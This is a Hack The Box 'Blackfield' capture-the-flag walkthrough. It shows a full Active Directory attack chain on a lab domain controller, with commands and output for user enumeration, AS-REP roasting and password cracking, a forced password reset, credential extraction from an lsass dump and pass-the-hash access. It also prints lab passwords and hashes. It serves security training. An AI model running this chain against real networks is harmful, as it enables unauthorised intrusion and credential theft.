

# Blackfield
https://app.hackthebox.com/machines/Blackfield


Target IP
10.10.10.192

```
sudo $(which autorecon) 10.10.10.192 --dirbuster.wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```

---

```
$ crackmapexec smb 10.10.10.192
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
```

Add entry on /etc/hosts

```
10.10.10.192    DC01 DC01.BLACKFIELD.local BLACKFIELD.local # HTB Blackfield
```

---


Enum RPC
```
$ rpcclient dc01.BLACKFIELD.local -U '' -N

rpcclient $> getusername
Account Name: ANONYMOUS LOGON, Authority Name: NT AUTHORITY

rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
```

Enum ldap
```
$ ldapsearch -H ldap://10.10.10.192 -x -b "DC=BLACKFIELD,DC=local"

result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

Enum SMB
```
$ smbclient -L 10.10.10.192 -U ''
Password for [WORKGROUP\]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        forensic        Disk      Forensic / Audit share.
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        profiles$       Disk      
        SYSVOL          Disk      Logon server share 
```

```
$ crackmapexec smb 10.10.10.192 -u '' -p '' --shares

SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\: STATUS_ACCESS_DENIED 
SMB         10.10.10.192    445    DC01             [-] Error enumerating shares: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
```


```
$ crackmapexec smb 10.10.10.192 -u 'anythinghere' -p '' --shares

SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\anythinghere: 
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL                          Logon server share
```

```
$ smbclient '//10.10.10.192/profiles$' -U ''
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 09:47:12 2020
  ..                                  D        0  Wed Jun  3 09:47:12 2020
  AAlleni                             D        0  Wed Jun  3 09:47:11 2020
  ABarteski                           D        0  Wed Jun  3 09:47:11 2020
  ABekesz                             D        0  Wed Jun  3 09:47:11 2020
  ABenzies                            D        0  Wed Jun  3 09:47:11 2020
  ABiemiller                          D        0  Wed Jun  3 09:47:11 2020
  AChampken                           D        0  Wed Jun  3 09:47:11 2020
  ACheretei                           D        0  Wed Jun  3 09:47:11 2020
  ACsonaki                            D        0  Wed Jun  3 09:47:11 2020
  AHigchens                           D        0  Wed Jun  3 09:47:11 2020
  ...
```

Lets try to find interesting files on the share
```
$ sudo mkdir /mnt/htb
$ sudo mount -t cifs '//10.10.10.192/profiles$' /mnt/htb 
Password for root@//10.10.10.192/profiles$:

ls /mnt/htb > users.lst

cd /mnt/htb/
find .
```
No many useful files here. Lets umount the share
```
sudo umount /mnt/htb
```


download kerbrute from GitHub
https://github.com/ropnop/kerbrute/releases/

```
cd ~/Downloads
$ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
$ chmod +x kerbrute_linux_amd64
```

```
$ cd ~/Projects/CTFs/HTB/Blackfield
$ ~/Downloads/kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d blackfield -o kerbrute.userenum.out users.lst
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/29/22 - Ronnie Flathers @ropnop

2022/08/29 18:38:36 >  Using KDC(s):
2022/08/29 18:38:36 >   10.10.10.192:88

2022/08/29 18:38:56 >  [+] VALID USERNAME:       audit2020@blackfield
2022/08/29 18:40:50 >  [+] VALID USERNAME:       support@blackfield
2022/08/29 18:40:55 >  [+] VALID USERNAME:       svc_backup@blackfield
2022/08/29 18:41:21 >  Done! Tested 314 usernames (3 valid) in 164.897 seconds
```

create a file with the valid user list
```
$ cat kerbrute.userenum.out | grep 'VALID USERNAME' | awk '{print $7}' | awk -F@ '{print $1}' > valid_users.lst
```

Running GetNPUsers to perform an ASREP Roast
```
$ ~/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.192 -no-pass -usersfile valid_users.lst blackfield/ 
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD:1789b3b1806295eaf5d3495c08a02368$b93197c0cd6ab874b929ca7ab9d4703fe5a4ef01b5f3b9da9b0767a715a47f171679b9fb8f5a5797eb21aa89e6d1012bf4e4f054b4cad69ea7963794a6ac6c889b53def8bf7655c3554174e12cbe2888a8f5530856fc62c35c88f069ca4ad63acd08754995b1f9ad7bbeffb0b414c442de5f83a2e409561fddcdd9bcb1acc994a05478a8bd6c05a8d76ca2798fd50de5163a2a3a73107e02fa73524af47ce2d3db2f7b2d8e3c9ec62489b9c277346561a1f53e02419302a29872bf2be97151c3434fd22e380025c20df8fbba2b029d5905d7db4495b9b89fdcfc8271906da0bcd888c9d7c081736c9cb36f485480
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Now we have the hash for the `support@BLACKFIELD` user. Lets try to crack it with John.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt support.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD)     
1g 0:00:00:22 DONE (2022-08-29 20:47) 0.04486g/s 643158p/s 643158c/s 643158C/s #1WIF3Y.."chito"
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| username | password |
| --- | --- |
| support | #00^BlackKnight | 


Lets check if we have access to any new files on the `profiles$` share.

```
$ smbclient '//10.10.10.192/profiles$' -U 'support'
Password for [WORKGROUP\support]: #00^BlackKnight

smb: \> ls support\
  .                                   D        0  Wed Jun  3 09:47:12 2020
  ..                                  D        0  Wed Jun  3 09:47:12 2020

                5102079 blocks of size 4096. 1676779 blocks available
```


List users - GetADUsers.py
```
$ ~/impacket/examples/GetADUsers.py -dc-ip 10.10.10.192 -all 'blackfield.local/support:#00^BlackKnight'
```

List users - rpcclient
```
$ rpcclient dc01.BLACKFIELD.local -U 'support' 
Password for [WORKGROUP\support]: #00^BlackKnight
rpcclient $> enumdomusers
```

Clean list of users we got from RCP
```
cat rpc_users.lst.tmp | awk -F\[ '{print $2}' | awk -F\] '{print $1}' | sort -u > rpc_users.lst
```

Run again kerbrute with new list of users
```
~/Downloads/kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d blackfield -o kerbrute.rpc.userenum.out rpc_users.lst
```

create a file with the valid user list
```
$ cat kerbrute.rpc.userenum.out | grep 'VALID USERNAME' | awk '{print $7}' | awk -F@ '{print $1}' > valid_rpc_users.lst
```

Running GetNPUsers to perform an ASREP Roast
```
$ ~/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.192 -no-pass -usersfile valid_rpc_users.lst blackfield/
```
No new hashes.


Passwordspray valid users with password of `support` user
```
~/Downloads/kerbrute_linux_amd64 passwordspray --dc 10.10.10.192 -d blackfield valid_rpc_users.lst '#00^BlackKnight'
```

This does not work as our local clock is too far from the domain one. However update the clock didn't work
```
$ sudo ntpdate 10.10.10.192
ntpdig: no eligible servers
```

Let's get more data using bloodhound
```
mkdir bloodhound
cd bloodbound
$ bloodhound-python -ns 10.10.10.192 -d blackfield.local -u support -p '#00^BlackKnight' -c all 
```

Then we start bloodhound database (neo4j) and bloodhound
```
sudo neo4j console
```
```
bloodhound
```

Investigating the details we got, we found out that the user `support` user can change the password of the `audit2020` user.





We can perform this opearion using RPC.
```
$ rpcclient dc01.BLACKFIELD.local -U support 
Password for [WORKGROUP\support]:#00^BlackKnight

rpcclient $> setuserinfo2 Audit2020 23 'P@ssw0rd!'

```

Now if we try to list shares from the DC with the `Audit2020` user we see that we have READ access to `forensic` share.
```
$ crackmapexec smb 10.10.10.192 -u 'audit2020' -p 'P@ssw0rd!' --shares                           

SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:P@ssw0rd! 
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```

It worked. Now we have one more credential.

| username | password |
| --- | --- |
| support | #00^BlackKnight | 
| audit2020 | P@ssw0rd! |


```
$ smbclient '//10.10.10.192/forensic' -U 'Audit2020'
Password for [WORKGROUP\Audit2020]: P@ssw0rd!
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 05:03:16 2020
  ..                                  D        0  Sun Feb 23 05:03:16 2020
  commands_output                     D        0  Sun Feb 23 10:14:37 2020
  memory_analysis                     D        0  Thu May 28 13:28:33 2020
  tools                               D        0  Sun Feb 23 05:39:08 2020

                5102079 blocks of size 4096. 1674475 blocks available
```

```
$ mkdir smb
cd smb 

$ sudo mount -t cifs -o 'username=audit2020,password=P@ssw0rd!' '//10.10.10.192/forensic' /mnt/htb

$ cp /mnt/htb/memory_analysis/lsass.zip .

$ unzip lsass.zip   
Archive:  lsass.zip
  inflating: lsass.DMP

$ sudo umount /mnt/htb 
```

With the lsass dump file, we can run pypykatz to try to extract the secrets from the file.
```
$ pypykatz lsa minidump --grep lsass.DMP | grep -i -e ':BLACKFIELD:'
...
msv:BLACKFIELD:svc_backup:9658d1d1dcd9250115e2205d9f48400d::463c13a9a31fc3252c68ba0a44f0221626a33e5c::::
msv:BLACKFIELD:Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62::db5c89a961644f0978b4b69a4d2a2239d7886368::::
...
```

We can use crakmapexec to test if the hashes are valid.
```
$ crackmapexec smb 10.10.10.192 -u 'administrator' -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62

SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE
```
`Administrator` credentials seems to be invalid.
```
$ crackmapexec smb 10.10.10.192 -u 'svc_backup' -H 9658d1d1dcd9250115e2205d9f48400d   

SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d 
```
`svc_backup` works.

We can add this credention to our collection.

| username | password | hash |
| --- | --- | --- |
| support | #00^BlackKnight | |
| audit2020 | P@ssw0rd! | |
| svc_backup | | 9658d1d1dcd9250115e2205d9f48400d |

If we test WinRM we get access.
```
$ crackmapexec winrm 10.10.10.192 -u 'svc_backup' -H 9658d1d1dcd9250115e2205d9f48400d 

SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

Lets use `Evil-WinRM` to access the machine.
```
$ evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

...
*Evil-WinRM* PS C:\Users\svc_backup\Documents> hostname
DC01

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup

*Evil-WinRM* PS C:\Users\svc_backup\Documents> cat ..\Desktop\user.txt
3920bb317a0bef51027e2852be64b543
```
Checking `whoami /all` we can see some interesting privileges.
```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /all

USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

The privilege `SeBackupPrivilege` and `SeBackupPrivilege` are interesting ones. Searching on the internet we see many articles about exploiting this privilege. This is a good one: [Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)


